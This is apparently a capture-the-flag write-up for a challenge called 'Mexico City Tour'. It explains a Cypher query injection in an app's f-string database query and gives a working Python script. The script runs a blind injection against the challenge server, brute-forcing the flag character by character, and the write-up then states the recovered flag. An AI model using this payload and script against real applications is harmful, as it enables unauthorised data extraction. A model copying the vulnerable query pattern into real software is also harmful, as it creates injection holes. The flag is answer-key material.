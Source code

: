 # Mexico City Tour &mdash; Solution

## Introduction

If we open the source code `app.py,` we can see that the application is using a graph database
with neo4j client: `from neo4j import GraphDatabase`.

We can spot vulnerable lines:
`distance_query = f'MATCH (n {{id: {start}}})-[p *bfs]-(m {{id: {end}}}) RETURN size(p) AS distance;'`

This line is vulnerable to injection attacks.
So, we need to construct some queries using the `Cypher Query Language.`

## Find the right attack

`*bfs` is not a standard part of the language, so if we search, we can find some hints:
`https://memgraph.com/docs/querying/differences-in-cypher-implementations`

Another obstacle is that only a number can be returned as a result so that we will need
blid injection attack.

## Attack

We know that the city's name is `FLAG`.
The idea is to find if a node contains the flag. We can assume that the flag begins with `TBTL{`, and here is a Python script for solving this task:

```python3
import requests
import string

url = 'http://ctf.dev.tbtl.io:8001'
flag = 'TBTL{'

while True:
    for i in string.ascii_letters + string.digits + "_{}":
        start = f'0}})-[*bfs]-(m {{name: "FLAG"}}) WHERE startsWith(reduce(accumulator = "", var IN values(m)| var), "{flag+i}") RETURN 1 AS distance;//'
        end = 100
        r = requests.post(f'{url}/search', data={'startStation': start, 'endStation': end})
        if 'Distance is 1' in r.text:
            flag += i
            print(flag)
            break
    if flag[-1] == '}':
        break

print(flag)

```

We got the flag: `TBTL{wh3R3_15_mY_GR4PH_h1dd3n}`
